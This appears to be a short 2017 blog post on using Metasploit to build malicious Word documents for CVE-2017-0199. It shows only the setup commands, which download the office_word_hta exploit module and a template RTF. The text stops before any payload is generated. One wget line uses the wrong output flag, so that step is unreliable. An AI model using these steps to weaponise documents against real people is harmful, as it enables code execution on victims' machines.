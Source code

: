 ```yaml
---
layout: post
title:  "Malicious Payloads in Word Documents"
date:   2017-04-29
tags:
- Networking
- Hacking
- Security
- Ubuntu
- Linux
---
```

Metasploit Framework


Last month a vulnerability was detected in MS Word that allowed running arbitrary code upon opening word documents. [versions](https://www.cvedetails.com/cve/CVE-2017-0199/). Microsoft patched the vulnerability very quickly. In this post I am going to explain how to use Metasploit Framework to generate a Word document

```bash
# Variables
EXTERNAL_EXPLOIT_MODULES=$HOME/.msf4/modules/exploits
EXPLOIT_TEMPLATES_DIR=/usr/share/metasploit-framework/data/exploits/

# Create the directory to add external modules and add the PoC exploit to the directory
mkdir -p $EXTERNAL_EXPLOIT_MODULES
cd $EXTERNAL_EXPLOIT_MODULES
wget "https://raw.githubusercontent.com/rapid7/metasploit-framework/master/modules/exploits/windows/fileformat/office_word_hta.rb"

# Download a template RTF file to be used for embedding payload (You can use any RTF file)
cd $EXPLOIT_TEMPLATES_DIR
wget "http://thewalter.net/stef/software/rtfx/sample.rtf" -o "cve-2017-0199.rtf"
```



### Sources
[https://github.com/rapid7/metasploit-framework/wiki/Loading-External-Modules](https://github.com/rapid7/metasploit-framework/wiki/Loading-External-Modules)

[https://www.cvedetails.com/cve/CVE-2017-0199/](https://www.cvedetails.com/cve/CVE-2017-0199/)
